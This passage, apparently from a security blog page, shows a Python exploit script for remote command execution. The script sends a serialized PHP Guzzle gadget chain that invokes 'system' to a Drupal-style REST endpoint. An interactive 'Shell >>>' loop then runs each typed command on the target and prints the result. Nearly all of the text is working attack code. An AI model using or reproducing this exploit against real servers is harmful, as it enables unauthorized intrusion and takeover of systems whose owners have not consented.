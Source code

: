 ```plain
        '{\r\n  "link": [\r\n    {\r\n      "value": "link",\r\n      "options": "O:24:\\"GuzzleHttp\\\\Psr7\\\\FnStream\\":2:{s:33:\\"\\u0000GuzzleHttp\\\\Psr7\\\\FnStream\\u0000methods\\";a:1:{s:5:\\"close\\";a:2:{i:0;O:23:\\"GuzzleHttp\\\\HandlerStack\\":3:{s:32:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000handler\\";s:%s:\\"%s\\";s:30:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000stack\\";a:1:{i:0;a:1:{i:0;s:6:\\"system\\";}}s:31:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000cached\\";b:0;}i:1;s:7:\\"resolve\\";}}s:9:\\"_fn_close\\";a:2:{i:0;r:4;i:1;s:7:\\"resolve\\";}}"\r\n    }\r\n  ],\r\n  "_links": {\r\n    "type": {\r\n      "href": "%s/rest/type/shortcut/default"\r\n    }\r\n  }\r\n}'
        % (cmd_len, cmd, url)
    )

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0",
        "Connection": "close",
        "Content-Type": "application/hal+json",
        "Accept": "*/*",
        "Cache-Control": "no-cache",
    }
    global response
    response = requests.request("POST", url_dir, data=payload, headers=headers)
    r = response.text
    s = r.split("}")[1]
    print(s)


while 1:
    cmd = input("Shell >>> ")
    cmd_len = len(cmd)
    if cmd == "exit":
        exit(0)
    do_post(cmd)
```

[![](assets/1707953684-d4a5d76dbc2da03f91dabc4060e4fc43.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1707292521303-288c0212-12bb-43de-b788-30a3007dac2a.png#averageHue=%23435b5b&clientId=u968b053f-1c23-4&from=paste&height=157&id=u8a755b68&originHeight=314&originWidth=1138&originalType=binary&ratio=2&rotation=0&showTitle=false&size=58618&status=done&style=none&taskId=u2e569569-8133-4ab6-a18f-1df37076869&title=&width=569)
